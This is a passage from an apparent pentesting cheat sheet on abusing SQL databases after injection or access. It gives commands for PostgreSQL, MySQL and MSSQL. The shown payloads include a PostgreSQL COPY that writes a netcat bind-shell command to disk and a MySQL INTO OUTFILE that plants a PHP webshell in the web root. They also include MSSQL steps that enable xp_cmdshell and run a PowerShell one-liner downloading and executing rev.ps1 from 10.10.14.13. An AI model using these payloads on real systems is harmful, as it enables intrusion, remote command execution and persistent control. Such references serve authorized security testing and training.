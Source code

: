 {% tab title="PostgreSQL" %}
We may use the `COPY` command

```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

Or, using lo\* commands

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```
{% endtab %}

{% tab title="MySQL" %}
We may use the OUTFILE keyword to write data into a file

```sql
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

{% hint style="success" %}
Even if an SQL error is triggered, it should not impact writing the webshell on disk.
{% endhint %}
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Command Execution

{% tabs %}
{% tab title="MSSQL" %}
### XP\_CMDSHELL

We can execute code on MSSQL instances using the `xp_cmdshell` function. To enable it, we need **admin privileges** (`sysadmin` privileges).&#x20;

{% hint style="danger" %}
xp\_cmdshell is disabled by default since SQL Server 2005
{% endhint %}

```sql
# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# Get users that can run xp_cmdshell (except DBA)
Use master
EXEC sp_helprotect 'xp_cmdshell'

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

# Execute code
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

```